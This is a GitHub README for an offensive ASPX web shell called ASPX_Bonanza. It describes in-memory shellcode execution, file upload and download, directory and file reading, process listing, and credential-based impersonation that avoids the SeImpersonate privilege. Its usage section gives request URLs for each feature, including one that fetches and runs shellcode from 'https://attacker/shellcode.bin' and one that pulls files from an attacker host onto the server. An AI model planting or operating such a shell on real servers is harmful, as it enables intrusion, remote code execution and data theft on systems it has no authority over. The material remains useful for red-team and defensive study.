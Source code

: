 # ASPX_Bonanza

ASPX_Bonanza is a multi-featured aspx shell with a unique use case. It has a few features with capabilities such as the use of executing shellcode in memory. Also, this script logs in directly with the impersonating user credentials and doesn’t require the seImpersonate privilege for the user running IIS.

----

## Features
- Execute shellcode in memory
- Download and Upload files
- List directories
- Cat files
- List processes

## Demo
https://user-images.githubusercontent.com/87979263/165757358-2b1e54e2-8442-4302-888a-ee2dd65c9eac.mp4

## Usage
### Impersonating user
In order to impersonate the user you want, in the source code you will have to edit the `username`, `domain` & `password`.

### Download and Execute shellcode in memory
``
https://url/sharp_impersonate.aspx?shellcodeUrl=https://attacker/shellcode.bin
``
### List directories
``
https://url/sharp_impersonate.aspx?dir=C:\users\public
``

### Download files
``
https://url/sharp_impersonate.aspx?FileDownload=C:\users\public\FILE
``

### Upload files
``
https://url/sharp_impersonate.aspx?UploadSource=https://attacker/FILE&UploadDestination=C:\users\public\FILE
``

### Cat files
``
https://url/sharp_impersonate.aspx?Cat=C:\users\public\FILE
``

### View processes
``
https://url/sharp_impersonate.aspx?Process=1
``
